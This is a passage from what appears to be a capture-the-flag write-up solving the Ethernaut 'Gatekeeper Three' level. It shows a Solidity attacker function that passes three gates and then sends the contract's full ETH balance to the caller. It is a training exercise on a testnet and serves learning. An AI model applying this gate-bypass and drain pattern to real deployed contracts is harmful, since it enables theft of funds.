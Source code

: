 ```

```
    // GOERLI ETH IS VALUABLE NOW, OKAY?? IT'S REAL MONEY APPARENTLY !
    (bool r,) = msg.sender.call{ value: address(this).balance }('');
```

There we go, waste not want not! All in all, this is what the hack looks like:

```
function pwn() public {
    gatekeeperThree.construct0r(); // gate one

    gatekeeperThree.createTrick(); // required to pass gate two
    gatekeeperThree.getAllowance(block.timestamp); // gate two

    // in case victim doesn't have enough funds to be hacked
    uint256 bal = address(gatekeeperThree).balance;
    if (bal < 0.001 ether + 1 wei) {
        uint256 diff = 0.001 ether + 1 wei - bal;
        (bool q,) = address(gatekeeperThree).call{ value: diff }('');
    }

    gatekeeperThree.enter();

    // GOERLI ETH IS VALUABLE NOW, OKAY?? IT'S REAL MONEY APPARENTLY !
    (bool r,) = msg.sender.call{ value: address(this).balance }('');
}
```

Go ahead and deploy attacker contract _being sure to provide funds_ to the _payable_ constructor! Remember, the hack doesn't work without this ETH! Once you've deployed, hit that sweet pwn() button and crack open a cold one. You've earned it :)

Congratulations on completing the (at time of writing) final level of Ethernaut, anon!

○•○ h00t h00t ○•○
